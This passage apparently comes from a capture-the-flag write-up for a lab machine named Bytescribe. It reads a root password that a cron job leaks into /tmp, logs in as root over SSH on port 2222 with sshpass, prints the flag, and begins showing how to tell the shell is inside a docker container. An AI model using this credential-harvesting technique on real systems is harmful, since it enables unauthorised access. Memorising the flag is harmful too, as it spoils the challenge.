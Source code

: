 It's apparent from here that this cron job writes the content of "creds.txt" into the "/tmp/root.passwd" file every minute. In that case, the user 'bytescribe' can read content of '/tmp/root.passwd'
```
bytescribe@bytescribe-virtual-machine:~$ cat /tmp/root.passwd
root:1x2zQSWA
```

However, trying to login as root user did not work.
```
bytescribe@bytescribe-virtual-machine:~$ su root
Password: 
su: Authentication failure
bytescribe@bytescribe-virtual-machine:~$
```

Then, reminded that there was another open ssh port 2222. Tried to login to that port with these credentials and it worked.
```
┌──(kali㉿kali)-[~]
└─$ sshpass -p '1x2zQSWA' ssh root@192.168.163.135 -p 2222
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-33-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Fri Oct  6 00:30:07 2023 from 192.168.163.133
root@bytescribe-virtual-machine:~# ls
user2.txt
root@bytescribe-virtual-machine:~# cat user2.txt 
ICSD{37fh34uhf34f1ecw}
```

We gained root shell in the container which is hosted on the Bytescribe machine. To make it more challenging to identify that it is in docker I made hostname of docker as the same as host's hostname. However, there are multiple ways to identify that we logged into the docker. 

1. **IP address**. On the host, we can see that there are other interfaces which are related to dockers.

    ```
    bytescribe@bytescribe-virtual-machine:~$ ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
        valid_lft forever preferred_lft forever
        inet6 ::1/128 scope host 
        valid_lft forever preferred_lft forever
    2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
        link/ether 00:0c:29:15:64:ff brd ff:ff:ff:ff:ff:ff
        altname enp11s0
        inet 192.168.163.135/24 brd 192.168.163.255 scope global dynamic noprefixroute ens192
        valid_lft 931sec preferred_lft 931sec
        inet6 fe80::b96c:ff38:9b6d:723b/64 scope link noprefixroute 
        valid_lft forever preferred_lft forever
    3: br-1973f7f468f0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
        link/ether 02:42:ad:75:90:19 brd ff:ff:ff:ff:ff:ff
        inet 172.19.0.1/16 brd 172.19.255.255 scope global br-1973f7f468f0
        valid_lft forever preferred_lft forever
    4: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
        link/ether 02:42:ab:f6:b4:40 brd ff:ff:ff:ff:ff:ff